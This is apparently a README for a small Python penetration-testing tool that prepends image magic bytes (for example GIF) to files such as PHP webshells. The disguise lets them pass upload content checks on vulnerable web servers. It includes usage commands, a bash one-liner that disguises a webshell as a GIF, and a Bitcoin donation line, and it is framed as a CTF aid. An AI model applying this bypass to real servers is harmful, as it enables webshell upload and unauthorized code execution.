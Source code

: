 # magic bitten file

## Purpose

The Python script **`magic_bitten_file.py`** allows you to insert magic bytes of selected file types at the beginning of a malicious file (such as a webshell). This enables the file to bypass file content checks when uploaded to a vulnerable web server, allowing it to be executed.

## Usage

This Python script requires only the Python Standard Library. To use it, simply execute the script.

```console
$ # Create a PHP file
$ printf "%s\n" "<?php phpinfo(); ?>" > code.php

$ # Check what this file is detected as by the Linux file utility
$ file code.php
code.php: PHP script, ASCII text

$ # Make this file appear as a GIF file
$ python3 magic_bitten_file.py -f gif code.php

$ # Check what the Linux file utility now detects this file as
$ file code.php
code.php: GIF image data, version 87a, 16188 x 26736
```

## Alternatives

Instead of using this script, you can take any sample file of your choice from the internet or your local filesystem and append the code to the end of it. However, I found this approach inconvenient during CTFs. This tool simplifies the process by running a single Python script.

Here's a Bash/Zsh one-liner to make a PHP file appear as a GIF file:

```bash
echo -n -e '\x47\x49\x46\x38\x37\x61' | cat - /path/to/php-webshell.php > image.gif
```

---

## Donations

If my work has saved you time and effort, I would appreciate any donation. However, the code in this repository is completely free.

Bitcoin (BTC): `bc1qzlhpm94vtk2ht67etdutzcy2g5an5v6g36tp0m`